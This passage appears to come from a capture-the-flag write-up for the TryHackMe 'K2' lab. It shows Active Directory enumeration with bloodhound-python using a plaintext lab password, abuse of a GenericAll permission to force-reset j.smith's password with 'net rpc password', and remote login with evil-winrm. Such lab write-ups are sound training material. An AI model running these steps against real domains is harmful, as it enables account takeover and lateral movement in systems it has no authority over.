 ![j.bold group memberships](/images/THM-K2/jbold_no_remote_access.png)

Let's run Bloodhound with the credentials for Rose Bud.

```
bloodhound-python -c all -u r.bud -p 'vRMkaVgdfxhW!8' -d k2.thm -dc K2Server.k2.thm -ns 10.10.70.233
```

![bloodhound-python command](/images/THM-K2/rose_bud_bloodhound_py.png)

Start the database

```
sudo neo4j start
```

Launch Bloodhound

```
bloodhound --no-sandbox
```

Under the `Analysis` section we select `Find Shortest Paths to Domain Admins`.

We discover that the members of the `IT STAFF 1` (which James is part of) have the `GenericAll` permission on `J.SMITH`.

![IT STAFF 1 members - GenericAll permission](/images/THM-K2/jbold_GenericAll.png)

We right click on the `GenericAll` thread, select `Help` and under `Linux Abuse` we read that we can change the password of the user.

![ForceChangePassword command](/images/THM-K2/ForceChangePassword.png)

```
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

![jsmith password change](/images/THM-K2/jsmith_pwd_change.png)

### Lateral Movement (shell as j.smith)

We then login with evil-winrm and recover the user flag on the Desktop.

```
evil-winrm -i k2.thm -u j.smith -p "Paswword#@2024"
```

![jsmith login](/images/THM-K2/jsmith_login.png)

## What are the usernames found on the server?

The usernames found are:

```
j.bold,j.smith,r.bud
```
